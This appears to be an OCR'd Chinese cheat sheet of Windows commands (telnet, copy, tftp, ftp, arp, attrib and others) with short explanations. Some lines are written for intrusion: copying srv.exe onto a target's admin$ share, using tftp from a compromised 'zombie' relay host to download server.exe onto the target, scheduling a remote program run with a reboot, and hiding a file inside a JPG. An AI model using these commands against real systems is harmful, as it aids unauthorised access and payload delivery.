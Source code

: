 
　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机


　　finger username @host 查看最近有哪些用户登陆


　　telnet ip 端口 远和登陆服务器,默认端口为23


　　open ip 连接到IP（属telnet登陆后的命令）


　　telnet 在本机上直接键入telnet 将进入本机的telnet


　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件


　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下


　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件


　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：


　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件


　　用参数/e才可连目录下的子目录一起复制到目标地址下。


　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送


　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机


　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)


　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface


　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息


　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令


　　mem 查看cpu使用情况


　　attrib 文件名(目录名) 查看某文件（目录）的属性


　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性


　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间


　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间


　　set 指定环境变量名称=要指派给变量的字符 设置环境变量

